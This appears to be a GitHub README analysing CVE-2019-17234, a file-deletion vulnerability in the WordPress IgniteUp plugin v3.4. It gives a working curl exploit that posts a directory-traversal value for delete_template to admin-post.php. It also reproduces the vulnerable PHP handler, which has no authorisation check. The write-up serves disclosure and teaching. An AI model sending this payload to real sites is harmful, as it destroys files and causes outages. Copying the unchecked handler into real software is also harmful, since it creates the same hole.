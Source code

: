 # Wordpress IgniteUp plugin vulnerability
Wordpress IgniteUp plugin v3.4 and below allows remote unauthenticated users to potentially arbitrarily delete any file on target webserver possibly causing a Denial of Service attack.

# CVE-2019-17234 timeline
The vulnerability was reported to wordpress.org team on September 20, 2019 and new version of the plugin 3.4.1 was released on November 08, 2019.[3]

# Background
IgniteUp is a popular wordpress plugin to perform trivial set up and management of website landing pages to let users know the site is coming soon, in mantainance or under construction.

The plugin comes out of the box with 5 free default templates: **believe,cleaner,glass,launcher,offline**.

Template names are highlighted since a correct parameter [template-name] is required to perform a valid request to the webserver to exploit the vulnerability.

# Exploit code (curl)
**[WARNING]**

Following command example might be enough to break your wordpress website, in this case deleting IgniteUp plugin core files.

```
curl -d "action=admin_init&delete_template=[template-name]/../../" -X POST http(s)://[target-website]/wp-admin/admin-post.php

dummy example:
curl -d "action=admin_init&delete_template=believe/../../" -X POST http://localhost/wp-admin/admin-post.php

```
[NOTE] 
Above command performs directory traversal inside the plugin relative path, with proper permissions (755 to webserver dirs and 644 to webserver files) and chowner (*www-data, apache* user etc...) the attack surface is limited up to server root directory (e.g. */var/www/html*).

# Vulnerability code analysis
The culprit function that introduces this vulnerability is highlighted below, reference file can be found at *wp-content/plugins/igniteup/includes/class-coming-soon-creator.php*, file which, as the name hints, handles creation of new custom templates and deletion of the defaults/created ones.

**V3.4**
```php
add_action('admin_init', array($this, 'deleteTemplate'));
...
...
public function deleteTemplate()
{
   if (!isset($_POST['delete_template']) || empty($_POST['delete_template']))
      return;
   $folder_name = $_POST['delete_template'];
   $path = dirname(CSCS_FILE) . '/includes/templates/';
   array_map('unlink', glob($path . $folder_name . '/*.*'));
   rmdir($path . $folder_name);
   unlink($path . '/' . $folder_name . '.php');
   header('Location: ' . $_SERVER['REQUEST_URI']);
}
```

**admin_init** on the very first line is a Wordpress action hook.
Hooks[2] make up the foundation for how plugins and themes interact with WordPress Core, but they’re also used extensively by Core itself.

Unfortunately the action hook associated function, *deleteTemplate()*, has no administrator/user checks, it gives the reader enough hints on how to perform such action, looking at the code is trivial to spot php POST parameter *delete_template*, this summed up with the admin_init hook action is enough knowledge for trying to perform a POST request to the webserver via the */wp-admin/admin-post.php* interface as pointed out in the exploit code paragraph.



[PERSONAL NOTE] Analayzing the usual behavior of the plugin from a wordpress-adminuser perspective, it is quite strange to find this function (I suppose this is a leftover from earlier versions), that because: 
1) No delete template option is available on v3.4 from admin panel, only plugin activation/deactivation or "creation" (download) of premium ($$$) templates.
2) Code behavior is basically incorrect, the *unlink()* function under normal circumstances will never end up correctly since, in the function parameter building, the '/' between $path and *$folder_name* should not be present, a backslash has already been added in *$path* variable declaration.

Here a sample of what happens during the unlink when I try to DirStroy a template.

[![attack.png](https://i.postimg.cc/4NHvxS1n/attack.png)](https://postimg.cc/nCZ9dTgt)


# TODO
admin-ajax.php test
v3.4.1 comparison


## Authors

* **Andrea Vignudelli** -(https://github.com/administra1tor)


## References
* Kudos to Jerome Bruandet for reporting the issue. 

[source] https://blog.nintechnet.com/multiple-vulnerabilities-in-wordpress-igniteup-coming-soon-and-maintenance-mode-plugin/

[1] v3.4.1 changelog- https://it.wordpress.org/plugins/igniteup/#developers

[2] Wordpress hooks- https://developer.wordpress.org/plugins/hooks/

[3] CVE-2019-17234 NIST reference- https://nvd.nist.gov/vuln/detail/CVE-2019-17234

